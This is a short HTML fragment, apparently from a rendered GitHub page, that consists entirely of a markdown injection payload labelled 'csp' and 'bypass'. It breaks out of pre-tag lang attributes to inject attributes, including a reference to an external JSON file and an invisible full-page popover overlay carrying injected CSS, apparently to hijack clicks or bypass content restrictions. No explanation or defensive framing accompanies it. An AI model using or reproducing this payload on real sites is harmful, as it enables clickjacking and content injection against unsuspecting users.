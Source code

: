 <a>
  <pre lang='/" data-repository-id="https://raw.githubusercontent.com/smartaptlimited/new/main/aaa.json"'>
    <code lang="wavedrom">csp</code>
  </pre>
  <pre lang='/" id="stage1" style="position:absolute;max-width:10000px;left:-1000px;top:-1000px;width:10000px;height:10000px;z-index:10000;" data-triggers="click" data-toggle="popover" data-html="true" data-title="aaa&lt;style&gt;#stage1{pointer-events:none}svg.chevron-right{position:absolute;max-width:10000px;left:-1000px;top:-1000px !important;width:10000px;height:10000px;z-index:10001;}&lt;/style&gt;bbb" data-content="ggg">
    <code lang="wavedrom">bypass</code>
  </pre>
</a>
